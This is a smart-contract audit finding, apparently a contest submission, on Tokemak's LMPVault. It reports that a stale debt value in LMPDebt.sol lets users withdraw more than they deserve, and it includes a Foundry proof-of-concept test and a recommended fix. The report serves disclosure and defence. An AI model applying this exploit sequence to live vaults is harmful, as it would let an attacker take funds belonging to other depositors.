 Formal Magenta Okapi

high

# Users will receive more funds than they expect
## Summary
This issue is a result of using an outdated value in [this line](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/libs/LMPDebt.sol#L295)
 
## Vulnerability Detail

In case the user asks to `withdraw()` and the `totalIdle` isn't enough. `LMPVault._withdraw()` needs to sub-call the DV `DestinationVault.sol` to withdraw some LPs (from e.g.AURA, CONVEX...). `sharesToBurn` is the amount that needs to be pulled from DV is computed by `LMPDebt._calcUserWithdrawSharesToBurn()`. `totalDebtBurn` is how much we need to decrease `totalDebt`. 

```solidity
File: LMPDebt.sol

290:         sharesToBurn = currentDvShares.mulDiv(maxAssetsToPull, currentDvDebtValue, Math.Rounding.Up);
...
295:         totalDebtBurn = cachedCurrentDebt.mulDiv(sharesToBurn, cachedDvShares, Math.Rounding.Up);
```

`sharesToBurn` is always calculated with a new fresh LP price, however, `totalDebtBurn` use `destInfo.currentDebt` which could be an outdated value, and as a result of that `totalDebtBurn` will end up with a wrong value.  

A malicious user could take that as an advantage to withdraw more than he deserves. check the POC_12 for a step-by-step simulation.

## Impact
- It is possible for malicious users to steal funds belonging to other users.

## Code Snippet

Please copy the following POC in `LMPVault-Withdraw.t.sol`
```solidity
  function test_POC_12() public {
        address user_01 = vm.addr(101);
        address user_02 = vm.addr(102);
        address solver = vm.addr(23_423_434);
        vm.label(user_01, "User_01");
        vm.label(user_02, "User_02");
        vm.label(solver, "solver");
        _accessController.grantRole(Roles.SOLVER_ROLE, solver);
        _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));


        //User_01 `deposit()`
        vm.startPrank(user_01);
        _asset.mint(user_01, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, user_01);
        vm.stopPrank();

        //User_02 `deposit()`
        vm.startPrank(user_02);
        _asset.mint(user_02, 500);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, user_02);
        vm.stopPrank();

        // Token prices
        // _asset - 1:1 ETH
        // _underlyer1 - 1:2 ETH
        // _underlyer2 - 1:1 ETH

        // Rebalance 500 baseAsset for 250 underlyerOne+destVaultOne
        _underlyerOne.mint(solver, 250);
        _underlyerTwo.mint(solver, 250);

        vm.startPrank(solver);
        _underlyerOne.approve(address(_lmpVault), 250);
        _lmpVault.rebalance(
            address(_destVaultOne),
            address(_underlyerOne), // tokenIn
            250,
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            500
        );
        _underlyerTwo.approve(address(_lmpVault), 250);
        _lmpVault.rebalance(
            address(_destVaultTwo),
            address(_underlyerTwo), // tokenIn
            250,
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            250
        );
        vm.stopPrank();

        // At this point we've transferred 750 idle out, which means we
        // should have 250 left
        assertEq(_lmpVault.totalIdle(), 250);
        assertEq(_lmpVault.totalDebt(), 750);

        
        // Underlyer1 is currently worth 2 ETH a piece
        // Lets update the price to 1.5 ETH and trigger a debt reporting
        // and verify our totalDebt and asset conversions match the drop in price

        _mockRootPrice(address(_underlyerOne), 15e17);

        // saves the state
        uint256 snapshot = vm.snapshot();

        /********************************/
        /*        scenario_A            */
        /*first withdraw then redeem all*/
        /********************************/
        //User_01 `withdraw()` 271 base asset
        vm.startPrank(user_01);
        _lmpVault.withdraw(271, user_01, user_01);
        vm.stopPrank();

        vm.startPrank(user_01);
        _lmpVault.redeem(_lmpVault.balanceOf(user_01), user_01, user_01);
        uint256 user_01_balance_scenario_A = _asset.balanceOf(user_01);
        console.log("user_01 balance after one withdraw then redeem all shares: ",user_01_balance_scenario_A);
        vm.stopPrank();

        /********************************/
        /*        scenario_B            */
        /*       just redeem all        */
        /********************************/
        // restores the state
        vm.revertTo(snapshot); 
        assertEq(_lmpVault.totalIdle(), 250);
        assertEq(_lmpVault.totalDebt(), 750);
     
        vm.startPrank(user_01);
        _lmpVault.redeem(_lmpVault.balanceOf(user_01), user_01, user_01);
        uint256 user_01_balance_scenario_B = _asset.balanceOf(user_01);
        console.log("user_01 balance If he redeem all shares one time: ",user_01_balance_scenario_B );
        vm.stopPrank();
    }
```
## Tool used

Manual Review - Foundry

## Recommendation

invoke `updateDebtReporting()` before the  withdraw